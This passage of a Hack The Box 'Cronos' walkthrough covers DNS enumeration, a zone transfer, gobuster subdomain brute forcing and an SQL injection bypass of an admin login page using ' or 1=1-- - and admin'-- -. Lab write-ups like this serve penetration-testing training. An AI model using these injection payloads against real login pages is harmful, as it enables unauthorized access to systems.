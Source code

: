 ```bash
nslookup 10.10.10.13 10.10.10.13
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Cronos/Untitled%201.png)

We verify that the base domain is **cronos.htb.**

Whenever there is TCP DNS, it is worth trying a zone transfer, which returns two other subdomains `admin` and `www`:

```bash
dig axfr @10.10.10.13 cronos.htb
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Cronos/Untitled%202.png)

We add the subdomain in `/etc/hosts`{: .filepath}

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Cronos/Untitled%203.png)

### Brute Force Subdomain

I'll run a `gobuster` quick subdomain brute force, but it will only return the three known ones:

```bash
gobuster dns -d cronos.htb -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 100
```

```bash
Found: www.cronos.htb
Found: ns1.cronos.htb
Found: admin.cronos.htb
```

## Port 80 (HTTP)

Both `cronos.htb` and `www.cronos.htb` lead to this page:

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Cronos/Untitled%204.png)

### Page Login

[http://admin.cronos.htb/](http://admin.cronos.htb/)

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Cronos/Untitled%205.png)

### SQL Injection

We tried SQL Injection on the login page.

We had success with ' `or 1=1-- -`

alternative: `admin'-- -`
